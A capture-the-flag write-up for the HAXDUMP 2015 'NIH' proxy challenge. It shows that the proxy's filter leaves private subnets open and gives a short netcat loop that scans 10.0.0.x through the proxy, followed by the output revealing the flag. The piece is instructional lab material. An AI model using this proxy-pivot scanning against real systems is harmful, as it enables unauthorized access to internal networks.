 ## HAXDUMP 2015 - NIH (Pwn 150)
##### 07/02/2015 (8hr)
___

### Description: 
NIH Inc. developed its own proxy server. I've heard its firewall is impenetrable, 
so don't bother trying to outsmart it.

Running at nih.haxdump.com port 9111
___

A quick look on the source code shows that there are no "exploitable" bugs. We have a proxy server
here. What this means? The proxy may has access to some other machine in the internal network.
Let's see the filter function. We filter the subnets:
```
	127.0.0.0/8
	54.0.0.0/8
	0.0.0.0/8
```
But not the subnets:
```
	192.168.0.0/16
	172.16.0.0.16
	10.0.0/8
```
Let's try to connect to these networks ($i denotes a range 1-254):
```
	192.168.0.$i
	192.168.1.$i
	10.0.0.$i
	172.16.0.$i
	172.16.1.$i
```
Here's the script for doing this job:
```
	for ((i=0; i<256; i++)); 
	do 
		echo 10.0.0.$i | nc nih.haxdump.com 9111; 
	done
```
And the results are:
```
[..... TRUNCATED FOR BREVITY .....]
NIH Proxy
Specify an HTTP server to connect to
DNS is too hard; just provide an IP address
Connecting to 10.0.0.57
NIH Proxy
Specify an HTTP server to connect to
DNS is too hard; just provide an IP address
Connecting to 10.0.0.58
	HTTP/1.1 200 OK
	Date: Sat, 07 Feb 2015 21:52:23 GMT
	Server: Apache/2.4.7 (Ubuntu)
	Last-Modified: Tue, 03 Feb 2015 21:50:51 GMT
	ETag: "8c-50e36107e3f4e"
	Accept-Ranges: bytes
	Content-Length: 140
	Vary: Accept-Encoding
	Content-Type: text/html

	<html>
	 <body>
	  <h1>NIH Proxy Status</h1>
	  <p>
	   Host: 127.0.0.1<br/>
	   Flag: cache_invalidation_is_easier<br/>
	  </p>
	 </body>
	</html>
NIH Proxy
Specify an HTTP server to connect to
DNS is too hard; just provide an IP address
Connecting to 10.0.0.59
[..... TRUNCATED FOR BREVITY .....]
```
So the flag is: **cache_invalidation_is_easier**
___